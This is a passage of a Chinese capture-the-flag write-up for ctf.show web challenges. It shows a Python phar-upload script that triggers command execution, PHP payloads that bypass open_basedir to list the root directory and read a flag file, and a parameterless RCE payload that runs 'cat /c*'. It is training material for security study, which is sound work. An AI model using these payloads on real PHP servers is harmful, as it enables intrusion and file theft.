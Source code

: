 然后上传，触发命令执行，得到flag

```python
import requests  
url="http://bf1f07fe-9a6c-4425-994b+7886f64b2923.challenge.ctf.show/index.php"
data1={'file':'/tmp/a.phar','content':open('shell.phar','rb').read()}
data2={'file':'phar:///tmp/a.phar','content':'123'}
requests.post(url,data=data1)
r=requests.post(url,data=data2)
print(r.text)

```

##  web805

考点：绕过open_basedir()

https://blog.csdn.net/unexpectedthing/article/details/125577789

几种常见的姿势：

读取文件目录：

```php
1=$dir=new DirectoryIterator('glob:///*');
	foreach($dir as $d){
    	echo $d->__toString().'</br>';
    }
```

```php
1=mkdir('flag');chdir('flag');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir("/"));
```

利用chdir和ini_set

读取文件内容：

```php
1=mkdir('flag');chdir('flag');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/ctfshowflag');
```

##  web806

考点：无参数构造RCE

https://xz.aliyun.com/t/9360

payload:

```
code=system(end(current(get_defined_vars())));&shell=cat /c*;
```

##  web807
